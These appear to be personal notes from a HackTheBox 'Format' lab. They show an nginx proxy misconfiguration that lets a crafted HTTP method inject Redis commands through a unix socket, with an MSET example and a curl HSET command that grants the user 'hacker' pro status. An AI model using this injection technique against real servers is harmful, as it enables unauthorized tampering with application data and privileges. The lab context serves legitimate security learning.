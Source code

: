 ![[Pasted image 20230517220935.png]]
Intercept request

![[Pasted image 20230517221147.png]]
**LFI**

![[Pasted image 20230517221304.png]]
#### Redis key overwrite
[Middleware everywhere and lots of misconfigurations to fix | Detectify Labs](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)

Luckily, redis commands accepting a variable amount of arguments do exist. MSET ([https://redis.io/commands/mset](https://redis.io/commands/mset)) takes a variable amount of keys and values:

```
MSET key1 "Hello" key2 "World"
GET key1
“Hello”
GET key2
“World”
```

In other words, we can use a request such as this to write any key:

```
MSET /static/unix:%2ftmp%2fmysocket:hacked%20%22true%22%20/app-1555347823-min.js HTTP/1.1
Host: example.com
```

Resulting in the following data on the socket (to redis):

```
MSET hacked "true" -example.s3.amazonaws.com/app-1555347823-min.js 
HTTP/1.0
Host: localhost
Connection: close
```
##### get isPro
```bash
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:hacker%20pro%20true%20a/b
```

```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:hacker%20pro%20true%20a/b
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```
